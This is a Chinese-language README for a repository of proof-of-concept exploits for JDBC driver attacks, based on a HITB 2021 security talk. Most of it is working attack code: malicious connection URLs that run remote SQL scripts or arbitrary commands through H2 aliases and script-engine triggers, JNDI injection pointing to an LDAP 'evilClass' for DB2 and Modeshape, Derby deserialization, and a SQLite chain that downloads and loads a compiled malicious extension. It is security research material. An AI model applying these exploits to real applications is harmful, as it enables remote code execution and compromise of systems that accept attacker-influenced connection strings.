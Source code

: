 # atkjdbc

HITB SECCONF Singapore-2021 议题 [Make JDBC Attacks Brilliant Again](https://conference.hitb.org/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf) 的利用代码。
对议题内容进行了一些拓展，补充了利用方式和 Poc 代码。

## Content

仓库包含以下数据库 JDBC Driver 的 Poc 代码。

### Spring Boot H2 Console

出网

```java
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8001/poc.sql'
```

不出网，通过多语句执行，

```java
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd)\\;return \"trganda\"\\;}'\\;CALL EXEC ('open -a Calculator.app')
```

#### SourceCompiler

或通过脚本语言引擎，支持 Javascript、Ruby、Groovy。

Javascript，

```java
@Test
public void js() throws SQLException {
    String javascript =
            "//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";

    // only work on old h2 version
    // String oldUrl =
    //            "jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;MODE=MSSQLServer;INIT=CREATE
    // TRIGGER POC BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"
    //                + javascript
    //                + "'";

    String url =
            "jdbc:h2:mem:db;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE SCHEMA IF NOT EXISTS db\\;CREATE TABLE db.TEST(ID INT PRIMARY KEY, NAME VARCHAR(255))\\;CREATE TRIGGER POC BEFORE SELECT ON db.TEST AS '"
                    + javascript
                    + "'";

    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

JRuby，

```java
@Test
public void ruby() throws SQLException {
    String ruby =
            "#ruby\nrequire \"java\"\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";
    String url =
            "jdbc:h2:mem:db;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE SCHEMA IF NOT EXISTS db\\;CREATE TABLE db.TEST(ID INT PRIMARY KEY, NAME VARCHAR(255))\\;CREATE TRIGGER POC BEFORE SELECT ON db.TEST AS '"
                    + ruby
                    + "'";

    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

Groovy

```java
@Test
public void groovyAsset() throws SQLException {
    String groovy =
            "@groovy.transform.ASTTest(value={"
                    + " assert java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")"
                    + "})"
                    + "def x";
    String url =
            "jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS T5 AS '"
                    + groovy
                    + "'";

    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

### Apache Derby

Master 模式下，借助反序列化，slave 会返回恶意数据。

```java
@Test
public void derby() throws SQLException {
    DriverManager.getConnection("jdbc:derby:db;startMaster=true;slaveHost=127.0.0.1");
}
```

### IBM H2

JNDI 注入

```java
@Test
public void db2() throws SQLException {
    String url =
            "jdbc:db2://127.0.0.1:50001/BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:1389/evilClass;";
    DriverManager.getConnection(url);
}
```

### Java Content Repository

JCR 的实现 Modeshape 可以使用 JNDI。


```java
@Test
public void modeshape() throws SQLException {
    String url = "jdbc:jcr:jndi:ldap://127.0.0.1:1389/evilClass";
    DriverManager.getConnection(url);
}
```

### SQLite

议题原分享者，只是假设有一个可控的 SQLite Extension 文件的话可以利用。
但实际上仅通过 SQLite Driver 就足够达到这一点了，因为它内部的 SSRF 本事就是一个文件上传的功能，只不过有大小限制。

目前只在 Ubuntu 测试过，编译 `poc.c` 文件

```sh
gcc -Os -flto -fdata-sections -ffunction-sections -c poc.c
```

通过 `poc.lds` 链接脚本，编译 Extension

```sh
gcc -T poc.lds -fPIC -s -nostartfiles -nostdlib -flto -shared poc.o -o pocs.so
```

执行 Poc 代码

```java
public static void createDb(String path) {
	File dbFile = new File("src/main/resources/poc.db");
	if (dbFile.exists()) {
		dbFile.delete();
	}

	try (Connection conn =
			 DriverManager.getConnection(
				 String.format("jdbc:sqlite:%s", "src/main/resources/poc.db"));) {
		conn.setAutoCommit(true);
		Statement statement = conn.createStatement();
		statement.execute(String.format("CREATE VIEW POC AS SELECT load_extension('%s', 'poc');", path));
		statement.close();
	} catch (SQLException e) {
		// ttk...
	}
}

@Test
public void sqlite() throws SQLException, MalformedURLException {

	String extensionUrl = "http://127.0.0.1:8001/poc.so";

	URL resourceAddr = new URL(extensionUrl);
	String extensionPath = String.format("/tmp/sqlite-jdbc-tmp-%d.db", resourceAddr.hashCode());
	System.out.println(extensionPath);

	createDb(extensionPath);

	System.out.println(System.getProperty("java.io.tmpdir"));

	// upload extension file
	Connection conn =
			DriverManager.getConnection(
					String.format("jdbc:sqlite::resource:%s", extensionUrl));
	conn.close();

	// poc
	String url =
			"jdbc:sqlite::resource:http://127.0.0.1:8001/poc.db?enable_load_extension=true";
	Connection connection = DriverManager.getConnection(url);
	connection.setAutoCommit(true);

	Statement statement = connection.createStatement();
	statement.execute("SELECT * FROM POC");

	statement.close();
	connection.close();
}
```

另一种攻击方式是利用 magellan 漏洞，超出知识范围，暂未实现。

### MySQL Fabric

...
